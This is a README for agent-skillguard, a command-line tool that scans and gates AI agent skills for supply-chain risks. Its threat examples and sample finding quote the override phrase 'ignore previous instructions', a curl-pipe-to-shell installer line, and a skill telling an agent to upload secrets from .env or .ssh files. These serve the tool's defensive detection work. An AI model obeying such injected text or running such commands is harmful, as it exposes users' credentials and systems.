

# Agent SkillGuard

Agent skills are executable supply chain. `agent-skillguard` creates a local-first Skill Passport: a portable approval record showing where a skill came from, what it can do, why it was allowed or blocked, and what exact digest was reviewed.

```bash
npx agent-skillguard passport ./skills/code-reviewer \
  --source https://github.com/org/repo/tree/main/skills/code-reviewer \
  --commit <sha> \
  --publisher org \
  --pack
npx agent-skillguard verify-passport .skillguard/passports/code-reviewer/passport.json --skill-dir ./skills/code-reviewer

npx agent-skillguard demo
npx agent-skillguard trust ./skills/code-reviewer --source https://github.com/org/repo/tree/main/skills/code-reviewer --commit <sha>
npx agent-skillguard contract ./skills
npx agent-skillguard admit ./skills
npx agent-skillguard review-update ./approved/skill ./candidate/skill
npx agent-skillguard scan ./skills
npx agent-skillguard pack ./skills/code-reviewer
npx agent-skillguard verify ./code-reviewer.skill.tgz
```



## Why This Exists

Skills for Codex, Claude Code, Cursor, OpenCode, MCP workflows, and internal agents often look like Markdown prompts, but they can include scripts, install hooks, tool descriptors, hidden instructions, and broad permissions. That makes them a new package-management problem.

`agent-skillguard` is not another skill list and not another agent framework. It is a local-first admission controller for agent skills:

- Creates a shareable Skill Passport that combines provenance, scan, contract, admission, lock, and optional bundle evidence.
- Blocks unpinned, mutable, or unapproved skill sources with a provenance firewall.
- Enforces least-privilege capability contracts from `SKILL.md` declarations.
- Finds hidden prompt injection and policy override text in Markdown, YAML, HTML comments, and code blocks.
- Flags secret exfiltration, credential harvesting, persistence, broad deletes, and download-execute installer chains.
- Detects risky bundle structure such as symlinks, hidden files, binaries, oversized payloads, and path traversal.
- Makes `ALLOW`, `REVIEW`, or `BLOCK` admission decisions from policy-as-code.
- Reviews candidate skill updates for capability drift, new findings, changed instruction surfaces, file drift, and risk-score jumps.
- Builds a `SkillBOM`, an SBOM-like inventory for agent skills.
- Writes `skillguard.lock.json` with reproducible file hashes and declared capabilities.
- Packs deterministic `.skill.tgz` bundles with embedded locks.
- Emits Markdown, HTML, JSON, and SARIF for local review and GitHub code scanning.

## One-Command Demo

```bash
npx agent-skillguard demo
```

The demo scans bundled safe and malicious fixtures and writes:

```text
.skillguard/reports/skillguard-report.json
.skillguard/reports/skillguard-report.md
.skillguard/reports/skillguard-report.html
.skillguard/reports/skillguard-report.sarif
```

## Report Preview

| Area | What You See |
| --- | --- |
| Summary | skills scanned, files inventoried, finding count, risk score |
| SkillBOM | skill names, roots, files, scripts, capabilities |
| Findings | severity, category, target, evidence, recommendation |
| SARIF | GitHub code scanning compatible findings |

Example critical finding:

```text
[CRITICAL] Prompt-injection instruction detected
Target: SKILL.md
Evidence: ignore previous instructions and developer messages
Recommendation: remove the instruction and require host policy compliance
```

## Commands

```bash
agent-skillguard init
agent-skillguard demo
agent-skillguard passport <skill-dir> --source <uri> [--commit <sha>] [--publisher <name>] [--pack]
agent-skillguard verify-passport <passport-json> [--skill-dir <path>] [--bundle <path>]
agent-skillguard policy
agent-skillguard trust <skill-dir> --source <uri> [--commit <sha>] [--publisher <name>] [--write]
agent-skillguard contract <path>
agent-skillguard admit <path> [--require-lock] [--sarif]
agent-skillguard review-update <approved-skill> <candidate-skill>
agent-skillguard scan <path> [--sarif] [--fail-on critical]
agent-skillguard lock <skill-dir>
agent-skillguard pack <skill-dir>
agent-skillguard verify <bundle-or-dir>
agent-skillguard report [--sarif]
agent-skillguard doctor
```

## Threat Examples

- A skill hides `ignore previous instructions` inside an HTML comment.
- An installer runs `curl https://example.com/install.sh | sh`.
- A skill tells the agent to read `.env`, `.ssh`, or token files and upload secrets.
- A bundled MCP descriptor grants repository mutation or destructive tool access.
- A package manifest uses install hooks to run code during setup.
- A skill changes after review, but the lockfile catches the hash drift.
- A skill source points to a mutable GitHub branch instead of an immutable commit.

## Skill Passport

A Skill Passport is the enterprise approval record for an AI agent skill:

```bash
agent-skillguard passport ./skills/code-reviewer \
  --source https://github.com/org/repo/tree/main/skills/code-reviewer \
  --commit 0123456789abcdef0123456789abcdef01234567 \
  --publisher org \
  --pack
```

It runs provenance, scan, capability contract, admission, lock generation, and optional deterministic packaging in one command.

Passport outputs:

```text
.skillguard/passports/<skill-name>/passport.json
.skillguard/passports/<skill-name>/passport.md
.skillguard/passports/<skill-name>/passport.html
.skillguard/passports/<skill-name>/skillguard.lock.json
.skillguard/passports/<skill-name>/<skill-name>.skill.tgz
```

Use the lower-level commands below when you need to debug one control layer directly.

Verify a passport later:

```bash
agent-skillguard verify-passport .skillguard/passports/code-reviewer/passport.json \
  --skill-dir ./skills/code-reviewer \
  --bundle .skillguard/passports/code-reviewer/code-reviewer.skill.tgz
```

Verification checks passport schema, lock digest, optional current skill digest, optional bundle digest, and embedded decision consistency.

## Provenance Firewall

A skill can scan clean and still be unsafe to trust if it came from a mutable branch, unknown host, or unapproved publisher. SkillGuard records and evaluates source provenance:

```bash
agent-skillguard trust ./skills/code-reviewer \
  --source https://github.com/org/repo/tree/main/skills/code-reviewer \
  --commit 0123456789abcdef0123456789abcdef01234567 \
  --publisher org \
  --write
```

Trust review writes:

```text
.skillguard/reports/skillguard-trust.json
.skillguard/reports/skillguard-trust.md
```

With `--write`, it also records `skillguard.provenance.json` beside the skill. This gives teams an audit record of what source, publisher, commit, and skill digest were approved.

## Capability Contracts

Skills should declare their power before they run. SkillGuard compares declared capabilities in `SKILL.md` against observed behavior:

```bash
agent-skillguard contract ./skills
```

It blocks undeclared high-risk behavior such as shell execution, network access, filesystem writes, package installs, secret access, git writes, and MCP tool mutation.

Contract review writes:

```text
.skillguard/reports/skillguard-contract.json
.skillguard/reports/skillguard-contract.md
```

## Admission Control

The breakthrough path is governance, not just scanning. Enterprises need to answer one question before a skill enters a project:

> Is this skill allowed to run here?

Create a policy:

```bash
agent-skillguard policy
```

Then gate skills:

```bash
agent-skillguard admit ./skills --require-lock --sarif
```

Admission writes:

```text
.skillguard/reports/skillguard-admission.json
.skillguard/reports/skillguard-admission.md
```

Default policy blocks critical findings, secret access, MCP tool mutation, and unapproved install-script behavior. Teams can tighten this to require clean scans and lockfiles for every approved skill.

## Update Firewall

Most supply-chain compromises arrive as updates, not first installs. SkillGuard can compare an approved skill with a candidate replacement:

```bash
agent-skillguard review-update ./approved/code-reviewer ./incoming/code-reviewer
```

It blocks risky drift when the candidate adds dangerous capabilities, introduces new high/critical findings, changes the main `SKILL.md` instruction surface, or jumps materially in risk score.

Update review writes:

```text
.skillguard/reports/skillguard-update-review.json
.skillguard/reports/skillguard-update-review.md
```

## Compared With Other Tools

| Tool Type | What It Does | SkillGuard Difference |
| --- | --- | --- |
| Skill lists | Curate useful prompts and workflows | Verifies skill safety before install or publish |
| Agent frameworks | Run agents and tools | Does not run agents; audits skill supply chain |
| MCP scanners | Inspect MCP tool descriptors | Scans skills, scripts, manifests, bundles, locks, and SARIF |
| OpenSSF Scorecard | Scores open-source project security posture | Skill-specific admission decisions and SkillBOMs |
| SLSA/provenance tools | Prove build artifact origin | Skill-specific source provenance, digest, and trust policy |
| Permission manifests | Describe expected permissions | Compares declared permissions to inferred skill behavior |
| Watchtower | Runtime AgentOps and MCP attack-path analysis | SkillGuard handles pre-install and pre-publish skill safety |

## CI Gate

Use Skill Passport in pull requests to retain an approval artifact:

```yaml
name: skillguard
on: [pull_request]
jobs:
  scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - run: npx agent-skillguard passport ./skills/code-reviewer --source https://github.com/org/repo/tree/main/skills/code-reviewer --commit ${{ github.sha }} --publisher org
```

## Local Development

```bash
npm install
npm run typecheck
npm test
npm run lint
npm run build
node dist/cli.js demo
```

## License

MIT
